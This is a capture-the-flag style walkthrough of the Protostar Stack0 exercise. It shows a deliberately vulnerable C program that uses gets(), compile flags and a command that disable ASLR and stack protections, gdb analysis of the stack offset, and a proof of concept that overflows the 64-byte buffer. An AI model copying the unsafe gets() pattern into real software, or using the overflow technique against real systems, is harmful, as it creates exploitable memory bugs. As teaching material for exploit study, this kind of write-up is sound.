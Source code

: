 ## Protostar-Stack0 Solution

### 1. Introduction

This is a poc solution for the "Stack0" challenge of Protostar. It's short and hopefully it's easy for everyone who wants to have a look.

Source:
[https://web.archive.org/web/20170419082620/https://exploit-exercises.com/protostar/stack0/](https://web.archive.org/web/20170419082620/https://exploit-exercises.com/protostar/stack0/) 


**Hints:**
* This level introduces the concept that memory can be accessed outside of its allocated region, how the stack variables are laid out, and that modifying outside of the allocated memory can modify program execution.

The if statement checks whether the variable "modified" is "**0**" (zero) or not. The goal of this challenge is to modify this variable and set its value to anything rather than "**0**" zero. 

#### 1.1 Source code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```

#### 1.2 Compilation

Terminal command to compile with debug symbols + without pie + without nx-bit + Disable canaries + Disable ASLR + for x86:

```js
sudo bash -c 'echo 0 > /proc/sys/kernel/randomize_va_space'

gcc -o 0 0.c -z execstack -fno-stack-protector -m32 -no-pie -g
```

### 2. Solution 

#### 2.1 Short Analysis with gdb-peda

1. Silently (-q) start with gdb.
2. Set intel syntax.
3. Disassemble the main function.

```nasm
$ gdb -q 0
Reading symbols from 0...
gdb-peda$ set disassembly-flavor intel
gdb-peda$ disas main
Dump of assembler code for function main:
   0x080491b6 <+0>:	endbr32 
   0x080491ba <+4>:	lea    ecx,[esp+0x4]
   0x080491be <+8>:	and    esp,0xfffffff0
   0x080491c1 <+11>:	push   DWORD PTR [ecx-0x4]
   0x080491c4 <+14>:	push   ebp
   0x080491c5 <+15>:	mov    ebp,esp
   0x080491c7 <+17>:	push   ebx
   0x080491c8 <+18>:	push   ecx
   0x080491c9 <+19>:	sub    esp,0x50
   0x080491cc <+22>:	call   0x80490f0 <__x86.get_pc_thunk.bx>
   0x080491d1 <+27>:	add    ebx,0x2e2f
   0x080491d7 <+33>:	mov    DWORD PTR [ebp-0xc],0x0
   0x080491de <+40>:	sub    esp,0xc
   0x080491e1 <+43>:	lea    eax,[ebp-0x4c]
   0x080491e4 <+46>:	push   eax
   0x080491e5 <+47>:	call   0x8049070 <gets@plt>
   0x080491ea <+52>:	add    esp,0x10
   0x080491ed <+55>:	mov    eax,DWORD PTR [ebp-0xc]
   0x080491f0 <+58>:	test   eax,eax
   0x080491f2 <+60>:	je     0x8049208 <main+82>
   0x080491f4 <+62>:	sub    esp,0xc
   0x080491f7 <+65>:	lea    eax,[ebx-0x1ff8]
   0x080491fd <+71>:	push   eax
   0x080491fe <+72>:	call   0x8049080 <puts@plt>
   0x08049203 <+77>:	add    esp,0x10
   0x08049206 <+80>:	jmp    0x804921a <main+100>
   0x08049208 <+82>:	sub    esp,0xc
   0x0804920b <+85>:	lea    eax,[ebx-0x1fcf]
   0x08049211 <+91>:	push   eax
   0x08049212 <+92>:	call   0x8049080 <puts@plt>
   0x08049217 <+97>:	add    esp,0x10
   0x0804921a <+100>:	mov    eax,0x0
   0x0804921f <+105>:	lea    esp,[ebp-0x8]
   0x08049222 <+108>:	pop    ecx
   0x08049223 <+109>:	pop    ebx
   0x08049224 <+110>:	pop    ebp
   0x08049225 <+111>:	lea    esp,[ecx-0x4]
   0x08049228 <+114>:	ret       
End of assembler dump.
```

Let's have a quick look at some parts of the output.

```nasm
   0x080491c1 <+11>:	push   DWORD PTR [ecx-0x4]
   0x080491c4 <+14>:	push   ebp
   0x080491c5 <+15>:	mov    ebp,esp
   0x080491c7 <+17>:	push   ebx
   0x080491c8 <+18>:	push   ecx
   0x080491c9 <+19>:	sub    esp,0x50
```
Since the stack grows to lower addresses, compiler used instruction **sub** to decrease the value in stack pointer by **0x50**.

```x86asm
gdb-peda$ p/d 0x50
80
```
So, 80 bytes for stack - 4 pushes = 64 bytes char array.

> 4*4 = 16

> 80 - 16 = 64

The char offset which has **64** bytes of length as I see.

It's also possible to estimate the offset length by using several approaches, but not limited to, Brute Force via terminal interaction (manually, bash, py...etc), py-gdb scripting, or checking stack via debugging.

Another calculation for the offset length.

```nasm
...
   0x080491d7 <+33>:	mov    DWORD PTR [ebp-0xc],0x0
   0x080491de <+40>:	sub    esp,0xc
   0x080491e1 <+43>:	lea    eax,[ebp-0x4c]
...
```

Since the stack grows to lower addresses, compiler decided to use the  instruction **sub** to decrease the value on stack pointer by **0xc** (12) .

```x86asm
gdb-peda$ p/d 0x4c
$1 = 76
gdb-peda$ p/d 0xc
$2 = 12
```

> 76-12 = 64

The funtion **gets()** doesn't check offset length while receiving a user-generated input. By exploiting this vulnerable function usage, it's possible to modify the variable **modified** the goal would be achieved. 

Recap the statement.

```c
if(modified != 0)
```

#### 2.2 Quick Solution

Let's set a breakpoint at addresses **0x08049212** and **0x080491fe** then run the program. Both are the addresses where  **puts** is called (**\<puts@plt\>**).

```nasm
gdb-peda$ b* 0x08049212
Breakpoint 1 at 0x8049212: file 0.c, line 16.
gdb-peda$ b * 0x080491fe
Breakpoint 2 at 0x80491fe: file 0.c, line 14.
```

```x86asm
gdb-peda$ r
Starting program: ./0 
AAAAAAAAA
...TRIM...
Breakpoint 1, 0x08049212 in main (argc=0x1, argv=0xffffd1f4) at 0.c:16
16	      printf("Try again?\n");
```

```x86asm
gdb-peda$ print modified
$1 = 0x0
```

Okay, the variable **modified** equals to **0x0** therefore it prints out "Try again?\n" message.

Let's use 65 uppercase "A" characters then observe output of the same commands. As we calculated the offset length as 64, the offset will be overwritten with this character hence modified is set to the following value.

```x86asm
gdb-peda$ r <<< $(python2 -c 'print "A"*65')
Starting program: /home/thomas/Desktop/protostar/0 <<< $(python2 -c 'print "A"*65')
...TRIM...
Breakpoint 2, 0x080491fe in main (argc=0x1, argv=0xffffd1f4) at 0.c:14
14	      printf("you have changed the 'modified' variable\n");
```
```x86asm
gdb-peda$ print modified
$3 = 0x41
```

It seems like it worked, a PoC in gdb-peda would be as follows.

```py
r <<< $(python2 -c 'print "A"*65')
```

#### 2.3 Final PoC

```py
$ python2 -c "print 'A'*65" | ./0
```

